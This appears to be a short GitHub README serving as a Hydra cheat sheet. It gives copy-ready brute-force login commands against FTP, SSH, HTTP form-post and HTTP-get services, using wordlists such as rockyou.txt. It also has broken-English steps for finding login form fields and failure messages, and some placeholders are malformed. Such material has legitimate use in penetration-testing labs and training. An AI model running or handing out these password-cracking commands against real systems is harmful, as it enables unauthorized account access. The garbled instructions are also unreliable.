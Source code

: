 # hydra 

Hydra is a parallelized login cracker which supports numerous protocols to attack. It is very fast and flexible, and new modules are easy to add. 
This tool makes it possible for researchers and security consultants to show how easy it would be to gain unauthorized access to a system remotely

[Ftp](#ftp)

[SSH](#ssh)

[Login Page](#login-page)

[Http Https](#https-http)


## FTP 

    hydra -l asif -P passlist.txt ftp://192.168.0.1 -f

## SSH

    hydra -l user -P passlist.txt ssh://192.168.0.1 -f

## Login Page

 1. Find some information like which type of request like GET/POST, Find which parameter use to login page like login.php, find varible name in username and password and submite button use view-source page, worng enter password what error message show like username and password is incorrect an enter the user name and password list

        hydra 10.10.232.64 -l admin -P passwords.txt http-form-post "/admin/:user=^USER^&pass=^PASS^:F=Username or password invalid" -V
       
 2. Worng password enter and so message username or password invalid so use F opton difine and password is success and show dashbord so use S option 
        

## Https Http

some time see the Webappliction page lock use usename and password and enter this page 

    hydra -l asif -P rockyou.txt -f 1IP  -s PORT http-get 
    hydra -l asif -P rockyou.txt -f 1IP  -s PORT http-get /login.php/
  
